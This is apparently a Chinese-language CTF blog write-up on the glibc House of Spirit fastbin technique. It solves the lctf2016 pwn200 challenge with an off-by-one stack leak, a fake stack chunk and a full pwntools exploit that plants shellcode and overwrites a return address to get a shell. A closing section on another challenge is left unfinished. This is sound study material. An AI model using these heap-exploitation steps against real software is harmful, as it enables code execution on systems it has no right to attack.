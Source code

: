```yaml
---
title: 「PWN」House_of_Spirit
tags: ['CTF', 'Pwn', ]
authors: [nova]

---
```


看看`House_of_spirit`，这是一种依靠在栈上构造`fake_chunk`从而实现`(almost) arbitrary write`的技术。依赖`fastbin`

<!--truncate-->

# how2heap

整体还是比较简单的，需要注意的就是需要`16字节对齐`，且需要构造`next_fake_chunk`的`chunk_size`以绕过检查

![image-20220719220643524](https://cdn.ova.moe/img/image-20220719220643524.png)

![image-20220719220923354](https://cdn.ova.moe/img/image-20220719220923354.png)

# 实战

## lctf2016_pwn200

![checksec](https://cdn.ova.moe/img/image-20220719235857110.png)

保护啥也没开，想着就是直接`ret2shellcode`梭哈，但是没有那么多字节给我们栈溢出。

![400A8E](https://cdn.ova.moe/img/image-20220719235308594.png)

第一个`who are u?`的函数存在`Off-by-One`的漏洞，可以泄露出`400A8E`的`rbp`指向的内容（也就是父函数的`rbp`）

```python
def who_are_you(content: bytes) -> bytes:
    sh.sendafter(b'who are u?\n', content)
    sh.recv(0x30)
    return sh.recv(6).ljust(8, b'\x00')

rbp = u64(who_are_you(b'a'*0x30))
print("> rbp:", hex(rbp))
```

![RBP](https://cdn.ova.moe/img/image-20220719235609346.png)

函数`read_input()`返回了一个`int`，虽然`400A8E`没有使用，他也应该会存到栈上的某个位置，根据汇编得到其位于`[rbp-0x38]`的位置

![[rbp-0x38]](https://cdn.ova.moe/img/image-20220720000140408.png)

在`400A29`中，可以看出`dest`是指针，`buf`存在`8`字节的溢出，正好可以覆盖`dest`，而`dest`会存到`ptr`中，供之后的`menu`里的功能来`free`和`malloc`等。

![400A29](https://cdn.ova.moe/img/image-20220720000329530.png)

到此，我们可以初步猜想，可以在`buf`这里构造一个`fake_chunk`，然后把堆指针指向`buf`，这样我们就有了一个在栈上的`chunk`。问题是在`check_out`函数中，想要`free(ptr)`，我们必须依靠`House_of_spirit`伪造`fake_next_chunk_size`

根据计算，我们可以发现刚才的`id`正位于目前我们`buf+0x68`的位置，因此我们不妨造一个`0x50`大小的`chunk`，并把`id`设置成一个满足`house_of_spirit`的值。

![fake_next_chunk_size](https://cdn.ova.moe/img/image-20220720001354338.png)

如此一来，当我们执行`free(ptr)`时，便会将这个栈上的地址存到`fastbin`中，此时我们重新`malloc(0x60)`，并写入对应的`payload`更改返回地址，便可以拿到`shell`了

通过观察，我们可以发现唯一可以控制的`ret_addr`是`ptr+0x40`的这个。返回地址可控了，丢到哪里呢？还记得我们一开始`who_r_u`的时候输入了`0x30`的数据么？我们完全可以把`shellcode`写到这里。只要计算一下偏移就可以了。

![image-20220720002739429](https://cdn.ova.moe/img/image-20220720002739429.png)

完整EXP:

```python
from pwn import *
context(os='linux', arch='amd64', log_level='DEBUG')

sh = process(['./pwn200'])


def who_are_you(content: bytes) -> bytes:
    sh.sendafter(b'who are u?\n', content)
    sh.recv(0x30)
    return sh.recv(6).ljust(8, b'\x00')


def give_id(content: bytes):
    sh.sendafter(b'give me your id ~~?', content)


def give_money(content: bytes):
    sh.sendafter(b'give me money~', content)


def menu(index: int):
    sh.recvuntil(b"your choice : ")
    if index == 1:
        sh.sendline(b"1")
    elif index == 2:
        sh.sendline(b"2")
        sh.recvuntil(b"out~")
    elif index == 3:
        sh.sendline(b"3")
        sh.recvuntil(b'good bye~')


def check_in(length_: bytes, content: bytes):
    sh.sendlineafter(b'how long?', length_)
    sh.sendlineafter(length_ + b'\n', content)
    sh.recvuntil(b"in~")


def gdb_(time_: int = None, arg: str = None):
    gdb.attach(sh, arg)
    pause(time_)


rbp = u64(who_are_you(asm(shellcraft.sh()).ljust(0x30, b'\x00')))
# rbp = u64(who_are_you(b'a'*0x30))
print("> rbp:", hex(rbp))
give_id(b'2333')  # next_fake_chunk_size
payload = p64(0) + p64(0x60) + b'\x00'*(0x40-0x10-0x08) + p64(rbp-0xb0)
give_money(payload)

menu(2)
ret_addr = rbp - 0x50
payload = b'\x00'*0x38 + p64(ret_addr) + b'\x00'*0x0F
menu(1)
check_in(b'80', payload)
menu(3)
sh.interactive()

```

# 2014_hack.lu_oreo

哈哈哥们出了个整不明白的bug（`pwntools`接不到`Action`），后面再说吧，乐

![image-20220720204517147](https://cdn.ova.moe/img/image-20220720204517147.png)
